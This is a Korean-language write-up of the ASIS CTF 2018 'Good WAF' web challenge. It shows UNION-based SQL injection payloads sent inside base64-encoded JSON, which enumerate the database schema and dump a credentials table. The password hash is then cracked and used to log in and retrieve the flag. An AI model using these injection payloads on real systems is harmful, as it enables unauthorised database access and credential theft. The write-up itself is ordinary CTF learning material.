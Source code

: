 # [WEB] ASIS CTF 2018 - Good WAF

## Description

WAFs cannot detect parameters filled with opaque data such as base64. Consequently, We've tuned our [WAF](http://167.99.12.110/) to be more strong checking these inputs.

**Note** : in order to find login endpoint, do not use brute-force,or guessing, they won't work.

**Hint 1** : base64(json_object)

## Analysis & Exploit

문제 페이지에 접속하면 GET형태로 object를 base64(json_object)형태로 넘겨달라한다.

```
News Portal
GET news by object (base64(json_object)) parameter
```

불친절하다.

사실 이 문제 제작자의 실수인지 의도인지 모르겠는데 .index.php.swp이 있으며 이를 복구해주면 플래그 나온다...(?)

```php
if($result->num_rows > 0){
	echo '<b>ASIS{e279aaf1780c798e55477a7afc7b2b18}</b>';
}
```

제작자의 의도는 저 플래그가 노출되지 않아야 하는 것 같지만, 못 본 셈치고 공부 목적으로 풀어보자.

일단 {}를 base64인코딩해서 날려보면 에러가 발생한다.

```
Notice: Undefined property: stdClass::$data in /var/www/html/index.php on line 37
```

오.. {"data":"1"}을 날려보자.

```
News Portal
News ID: 1
Believe it or not, but any computer connected to the Internet is vulnerable to cyber attacks. With more money at risk and data breaches at a rise, more certified cybersecurity experts and professionals are needed by every corporate and organisation to prevent themselves from hackers and cyber thieves. That's why jobs in the cybersecurity field have gone up 80% over the past three years than any other IT-related job. So, this is the right time for you to consider a new career as a cybersecurity professional.
```

옼 결과 나오네요, 인젝션 해봅시다.

```json
{
    "data":"-1' union select 1,group_concat(concat(table_name,0x3a3a,column_name)) from information_schema.columns where table_schema=database() #"
}
```

위의 json을 날리면 아래와 같이 table과 column을 얻을 수 있다.

```
access_logs::id,access_logs::log,credentials::id,credentials::username,credentials::password,credentials::role,news::id,news::data
```

credentials 테이블을 덤프떠보자.

```json
{
    "data":"-1' union select 1,concat(id,0x3a3a,username,0x3a3a,password) from credentials #"
}
```

위 쿼리를 날리면 username과 password를 얻을 수 있다.

```
1::valid_user::5f4dcc3b5aa765d61d8327deb882cf99
```

`5f4dcc3b5aa765d61d8327deb882cf99`는 구글에 넣어보니 password의 md5값이라고 한다.

서버에 다음과 같이 날려주면 플래그를 얻을 수 있다.

```
http://167.99.12.110/?action=a&credentials[0]=valid_user&credentials[1]=password
ASIS{e279aaf1780c798e55477a7afc7b2b18}
```

이 문제 왜 Good WAF문제 인지 모르겠다.~~(필터링 된게 뭘까..)~~



**ASIS{e279aaf1780c798e55477a7afc7b2b18}**